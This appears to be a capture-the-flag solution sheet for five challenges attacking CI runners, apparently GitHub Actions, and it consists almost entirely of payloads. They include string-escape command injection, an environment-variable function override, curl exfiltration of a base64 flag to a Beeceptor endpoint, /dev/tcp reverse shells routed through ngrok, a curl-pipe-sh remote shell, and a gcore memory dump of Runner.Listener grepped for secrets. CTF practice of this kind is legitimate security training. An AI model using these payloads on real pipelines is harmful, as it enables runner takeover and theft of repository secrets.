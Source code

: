 # Chall 1
 
```

Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi

```
 
# Chall 2

```
Not a release :(
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```

# Chall 3
 
[Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
 
[Beeceptor](https://beeceptor.com/)
 
[Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
```

Not a release :(

BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))

```
 
# Chall 4
 
## Setup (client side)
 
### Listen with NC

```

nc -lv 4444

```
 
### Setup ngrok
 
```

ngrok tcp 4444

```
 
### Get ngrok IP to build payload
 
```

dig <NGROK_DNS>

```
 
## Payload
 
```

$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)

```
 
## Fancy shell for lazy DevOps :)
 
```

curl -sSf https://sshx.io/get | sh -s run

```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 
# Chall 5
 
### Listen with NC

```

nc -lv 4444

```
 
### Setup ngrok
 
```

ngrok tcp 4444

```
 
### Get ngrok IP to build payload
 
```

dig <NGROK_DNS>

```
 
## Payload
 
```

; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1

```
 
## Fancy shell for lazy DevOps :)
 
```

curl -sSf https://sshx.io/get | sh -s run

```
 
## Let's dump!
 
### Let's check those secrets
 
```

sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*

```

 